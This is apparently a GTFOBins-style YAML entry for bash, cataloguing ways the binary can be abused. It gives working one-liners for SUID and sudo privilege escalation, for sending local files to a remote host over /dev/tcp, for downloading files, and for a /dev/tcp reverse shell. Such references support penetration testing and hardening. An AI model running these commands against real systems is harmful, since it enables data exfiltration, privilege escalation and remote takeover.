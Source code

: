 ```yaml
---
functions:
  exec-interactive:
    - code: bash
  sudo-enabled:
    - code: sudo bash
  suid-enabled:
    - code: ./bash -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service to collect the file from the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT
    - description: Send local file using a TCP connection. Run `nc -l -p 8000 > "where_to_save"` to collect the file on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        cat $LFILE > /dev/tcp/$RHOST/$RPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_get
        (echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; do read i; done; cat) > $LFILE
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 8000 < "file_to_send"` to send the file from the other end.
      code: |-
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_get
        cat < /dev/tcp/$RHOST/$RPORT > $LFILE
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        exec 5<&-;exec 5<>/dev/tcp/$RHOST/$RPORT;while read line 0<&5; do $line 2>&5 >&5; done
---
```

